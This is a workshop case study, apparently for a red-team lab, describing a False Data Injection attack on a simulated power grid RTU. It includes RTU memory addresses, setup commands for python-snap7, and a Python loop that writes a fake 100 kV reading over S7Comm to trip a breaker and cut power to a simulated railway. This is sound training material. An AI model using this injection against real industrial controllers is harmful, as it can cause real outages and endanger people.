







# Power Grid System Cyber Security Case Study 01

### [ RTU False Data Injection OT Attack ] 

This document guides red team attackers how to implementation of a OT **False Data Injection (FDI) attack** on the Metering Unit (MU) reading of a power grid's Remote Terminal Unit (RTU) to cause the power outage situation on the Power Grid's power distribution sub-system.


```python
# Author:      Yuancheng Liu
# Created:     2025/04/15
# Version:     v_0.2.0
# DocNum:      Wiki_5_1
```

**Table of Contents**

[TOC]

------

### Case Study Introduction

This OT cyber attack attack case study focuses on manipulating voltage or current readings by overwriting specific memory addresses within the RTU, thereby triggering the safety protection mechanisms of the SCADA HMI system. This process ultimately leads to a power cut-off for the railway system connected to the grid's Level 0 step-down transformer.

The attack target VM is the power grid's data RTU, VM_ID: `rail-ED-rtu02-rail`, IP**: **`10.107.[ team_nr ]08.11`, 5 VMs in the system are effected, the attack data flow diagram is shown below:




------

### Attack Scenario Introduction

This attack scenario demonstrates a **False Data Injection (FDI) attack** on a power grid system, leading to a power failure for the railway system. The process consists of 7 steps, as illustrated in the attack path diagram below.



1. After successfully infiltrating the OT production network, the red team attacker discovers that the RTU can accept memory value modification commands via the `Siemens-S7Comm` protocol. The attacker then creates an S7Comm client program to continuously inject a high voltage value (100kV) into a specific RTU address which store the measured transformer's output voltage to the railway system, overriding the legitimate readings from the railway transformer’s metering unit.
2. The **Power Grid HMI** regularly reads data from the RTU. Each reading has an acceptable range, and if a value falls outside this range, the HMI will interpret it as an incorrect reading or a system error.
3. When the HMI detects a reading of 100kV for the railway operating voltage, which is outside the safety range of 0-72kV, it triggers an alert for the power grid operator to investigate.
4. If the power grid operator does not address the alert and the abnormal voltage reading persists three times consecutively, the SCADA-HMI will treat as a real system error and try activate its circuit protection mechanism. Typically, if the voltage or current is out of range, the circuit breaker trips immediately. However, if the high value persists for a period, it suggests a potential jammed of the breaker. After three alerts indicating high voltage, the HMI confirms an power error in the railway power system and initiates an automatic safety control to disconnect the railway transformer’s output, protecting the overall system.
5. The HMI sends a **Modbus-TCP command** to the PLC to remotely control the motorized circuit closer linked to the circuit breaker. For details on the design of the remote-controllable circuit breaker, refer to the following link: [Remote Controllable Circuit Breaker Design](https://github.com/LiuYuancheng/IT_OT_IoT_Cyber_Security_Workshop/blob/main/OT_System_Attack_Case_Study/Power_CircuitBreaker/Power_CircuitBreaker.md). Consequently, the physical circuit breaker in the power grid simulator is turned off, cutting off energy transmission to the railway system interface, resulting in 0V, 0A output.
6. The power grid physical simulator sends a **power cut-off message** to the railway system physical world simulator via the power link.
7. Upon receiving the power state update from the power link, the **railway system physical simulator** triggers power outage situation:  an emergency stop for all trains due to the loss of power. All trackers switch to a power failure state (red color), and the railway system displays a power outage alert.


------

### Background Information

The table below outlines the **normal operating ranges** for voltage and current across various power loads and customers within the power grid system. Each type of energy source has specific voltage and current thresholds that ensure safe and efficient operation.

| Energy Source                  | Connected System        | Voltage Range | Current Range |
| ------------------------------ | ----------------------- | ------------- | ------------- |
| High Voltage Transmission Line | Distribution Substation | 0 - 150 kV    | 0 - 120 A     |
| Level 0 Step-Down Transformer  | Railway System          | 0 - 80 kV     | 0 - 100 A     |
| Level 1 Step-Down Transformer  | Smart Factory           | 0 - 15 kV     | 0 - 90 A      |
| Level 2 Step-Down Transformer  | Smart Home              | 0 - 220 V     | 0 - 40 A      |

The following table provides details on the **RTU memory addresses index**(from `0x00000000`)  used to store power load data received from Metering Units (MUs). Each address corresponds to specific metering data for voltage and current, stored as integer values.

| MU Components                                          | Memory Address Index | Address      | Byte Index | Data Type |
| ------------------------------------------------------ | -------------------- | ------------ | ---------- | --------- |
| Distribution Substation Voltage                        | 6                    | `0x00000006` | 4          | Int       |
| Distribution Substation Current                        | 6                    | `0x00000006` | 6          | Int       |
| Level 0 Step-Down Transformer (Railway System) Voltage | 7                    | `0x00000007` | 4          | Int       |
| Level 0 Step-Down Transformer (Railway System) Current | 7                    | `0x00000007` | 6          | Int       |
| Level 1 Step-Down Transformer (Smart Factory) Voltage  | 8                    | `0x00000008` | 0          | Int       |
| Level 1 Step-Down Transformer (Smart Factory) Current  | 8                    | `0x00000008` | 2          | Int       |
| Level 2 Step-Down Transformer (Smart Home) Voltage     | 8                    | `0x00000008` | 4          | Int       |
| Level 2 Step-Down Transformer (Smart Home) Current     | 8                    | `0x00000008` | 6          | Int       |

These configurations ensure that the RTU correctly interprets and processes the data from the MUs, enabling efficient monitoring and control of power distribution across various systems.


------

### Attack Demo Steps

The following steps demonstrate how to implement a False Data Injection (FDI) attack on the RTU to trigger a power outage scenario.

#### Step 1: Confirm System Connectivity

Before initiating the attack, ensure all system components are properly connected. Follow the previous deployment section to confirm all the connection correct. 

#### Step 2: Execute False Data Injection Attack

Based on the background information, the goal is to inject a voltage value of `100 kV` to the RTU at memory index `7`, byte `4`. Follow the steps below to carry out the attack:

**Install Python Snap7 Library:**

From the attack node (Ubuntu system), install the `python-snap7` library version 1.3 using the following commands:

```
$ sudo apt-get install software-properties-common
$ sudo add-apt-repository ppa:gijzelaar/snap7
$ sudo apt-get update
$ sudo apt-get install libsnap7-1 libsnap7-dev
$ pip install python-snap7==1.3
```

For Windows systems, copy the `snap7.dll` file into the same folder as the attack demo script (`attackScript_FDI.py`).

**Configure and Run the Attack Script:**

- Modify the target IP address in the script to `10.107.[ team_nr ].08.11`.
- Run the script using:

```
python3 attackScript_FDI.py
```

If the script connects to the RTU, you will see the following log:



Attack loop example:

```python
#-----------------------------------------------------------------------------
# Attack loop example 
RTU_IP= '127.0.0.1' # change this IP to the Power grid RTU02 IP address

client = snap7Comm.s7CommClient(RTU_IP, rtuPort=102, snapLibPath=libpath)
connection = client.checkConn()
if connection:
    while True:
        print("Attack: Start inject out of MU measurement range false voltrage value (100kV) \nto lvl0 Transformer RTU-MU reading")
        client.setAddressVal(7, 4, 100, dataType=INT_TYPE)
        time.sleep(0.1)
        print("Inject finished!")
```


#### Step 3: Verify the Impact of the FDI Attack

**Monitor HMI for Alerts:**

After the attack script has been running, check if the HMI displays a red alert, indicating that it has detected abnormal voltage values:



**Observe Circuit Protection Mechanism Activation:**

When the circuit protection mechanism activates, check the logs from the HMI UI Log text field about the action :



**Inspect the Power Grid Physical Simulator:**

Switch to the Power Grid physical simulator (`10.107.[ team_nr ].09.7`). Verify that the circuit breaker `Railway-SW` has been turned off and the current has dropped to `0.0 A`:



**Check Railway System Simulator for Power Failure:**

Lastly, observe the Railway system physical simulator. You should see that the railway system has experienced a power failure, as shown below:




------

> Last edit by LiuYuancheng(liu_yuan_cheng@hotmail.com) at 15/04/20245 if you have any problem, please send me a message.  

